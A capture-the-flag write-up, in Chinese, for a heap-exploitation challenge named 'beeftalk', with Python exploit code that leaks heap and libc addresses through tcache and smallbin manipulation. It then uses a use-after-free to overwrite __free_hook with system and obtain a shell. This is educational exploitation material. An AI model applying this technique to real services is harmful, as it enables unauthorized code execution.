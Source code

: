 # beeftalk

leak heap address 很簡單，直接 reuse 剛剛 delete 的 user 就可以在 name 得到 heap address:

![image-20220110185837682](img/image-20220110185837682.png)

leak libc 就比較麻煩了，首先需要先填滿 0x90 大小的 tcache

```python
users = ['']*8
for i in range(7):
    users[i] = signup(b"A"*0x80, "123", "123", "123")

for i in range(7):
    login(users[i])
    delete_account()
```

![image-20220110200932033](img/image-20220110200932033.png)

```python
users[0] = signup(b"A"*0x80, "123", "123", "123")
login(users[0])
delete_account()
```

再下一次 signup 再 delete account 時，會因為 0x90 這塊透過 realloc 的記憶體做 free，且下一個 chunk 是 top chunk 而觸發 `malloc_consolidate` (大小超過 0x10000)，fastbin 會被重放在 unsortbin 中

![image-20220110204206242](img/image-20220110204206242.png)

接著，把 tcache 內的 chunk 清空，unsortbin 會再落到 smallbin：

```python
for _ in range(4):
    token = signup(b"", "123", "123", "123")
```

![image-20220110204721460](img/image-20220110204721460.png)

接下來再建立一個 user，會依序要 0x50 (User), 0x30 (name) ... 的記憶體，0x50 會要到 smallbin 的 0x60 大小的 chunk，0x30 會從 0xa0 剪下 0x30 後分配，因為 smallbin 的 fb 會接到 main_arena，所以 name 的欄位剛好就是一個 libc 的位置，之後就可以 leak 出 libc 的 base address：

```python
users[4] = signup(b"", "123", "123", "123")
login(users[4])

p.recvuntil("Hello \n")
libc = int(p.recvline().split(b", have a nice day !\n")[0][::-1].hex()[0:-1]+'000', base=16) - 0x1eb000
_system = libc + 0x55410
__free_hook = libc + 0x1eeb28
```

接下來，就是找到一個 pattern，可以讓 desc 或是 name 改到某個 user 的結構，就可以使用 UAF，我使用以下這個 payload，在這個時間點後 user4 的 desc 會等於 user5 的結構：

```python
delete_account()

users[4] = signup(b"", "123", "123", "123")
users[5] = signup(b"A"*0x20, "123", "123", "123")
users[6] = signup(b"", "123", "123", "123")

login(users[6])
delete_account()

login(users[5])
delete_account()

login(users[3])
delete_account()

users[4] = signup(b"A"*0x20, "123", "123", "123")
```

之後就是先把 free_hook 的位址寫到 user5 的結構上，再透過 update_user 來將 `/bin/sh` 以及 `system` 寫入，最後 delete_user 之後即可 get shell

```python
login(users[4])
fake = p64(__free_hook-8) + p64(__free_hook)
update_user(b"", fake, b"", b"")
logout()

print(users[5], _system)

login(users[5])

update_user(b'/bin/sh\x00', p64(_system), b"", b"")

p.sendlineafter("4. logout\n> ", "3")
p.sendlineafter("Are you sure ?\n(y/n) > ", "y")
```

![image-20220111020020609](img/image-20220111020020609.png)